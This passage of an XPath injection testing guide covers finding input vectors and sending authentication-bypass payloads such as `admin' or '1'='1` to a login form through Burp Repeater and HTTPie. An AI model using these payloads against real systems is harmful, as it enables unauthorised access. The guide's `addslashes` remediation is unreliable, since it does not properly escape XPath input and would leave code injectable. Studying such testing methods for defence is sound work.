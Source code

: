 ### 1. Identify Input Vectors

**Objective**: Locate user-controllable inputs that may be used in XPath queries.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify login forms, search fields, or APIs that may query XML data.
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or click links to capture requests in HTTP History.
   - Note parameters (e.g., `user=admin`, `query=john`).
3. Inspect responses:
   - Check for XML-related headers (e.g., `Content-Type: application/xml`) or errors.
   - Use Developer Tools (`Ctrl+Shift+I`) to search for XML or XPath-related output.
4. List input vectors:
   - Document query parameters, form fields, headers, and XML payloads.

**Example Input Vectors**:
- URL: `http://example.com/login?user=admin`
- Form: `<input name="username">`
- API: `POST /api` with `<user>admin</user>`

**Remediation**:
- Validate inputs with allowlists:
  ```php
  if (!preg_match('/^[a-zA-Z0-9]+$/', $_GET['user'])) die("Invalid input");
  ```
- Escape XPath inputs:
  ```php
  $user = addslashes($_GET['user']);
  ```

**Tip**: Save the input vector list in a report.

### 2. Test for XPath Injection in Authentication

**Objective**: Verify if authentication forms are vulnerable to XPath injection.

**Steps**:
1. Identify login forms:
   - Look for username/password fields or SSO endpoints.
2. Inject payloads:
   - Use Burp Repeater:
     ```http
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     username=admin' or '1'='1&password=test
     ```
   - Use HTTPie:
     ```bash
     http POST http://example.com/login username="admin' or '1'='1" password=test
     ```
3. Check responses:
   - Look for successful login or XPath errors (e.g., `Invalid XPath expression`).
4. Test advanced payloads:
   - Try: `' or true() or ''='` to bypass conditions.
